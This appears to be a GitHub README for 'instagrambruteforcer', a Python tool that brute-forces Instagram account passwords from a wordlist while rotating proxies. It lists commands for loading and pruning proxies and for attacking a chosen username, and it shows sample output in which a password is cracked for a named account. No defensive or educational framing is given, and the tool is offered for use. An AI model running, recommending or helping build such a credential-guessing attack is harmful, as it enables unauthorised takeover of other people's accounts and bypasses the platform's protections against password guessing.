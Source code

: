 ### instagrambruteforcer
For Questions Telegram: https://t.me/cyberalphabit Email Me: darkknightgeeky@gmail.com
![exploit](https://github.com/DarkKnightGeeky/instagrambruteforcer/blob/main/Instagrambruteforcer.png)
## Requirements

- Python _v3.11_
- proxy list
## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python3 instagrambruteforcer.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python3 instagrambruteforcer.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python3 instagrambruteforcer.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python3 instagrambruteforcer.py -u <username> -p <passlist>
```

### Execute

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: 357
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: Lopez123
[-] Complete: 62.67%
[-] Attempts: 413
[-] Browsers: 145
[-] Exists: True

[!] Password Found
[+] Username: Lopezrita56
[+] Password: Lopez123
```
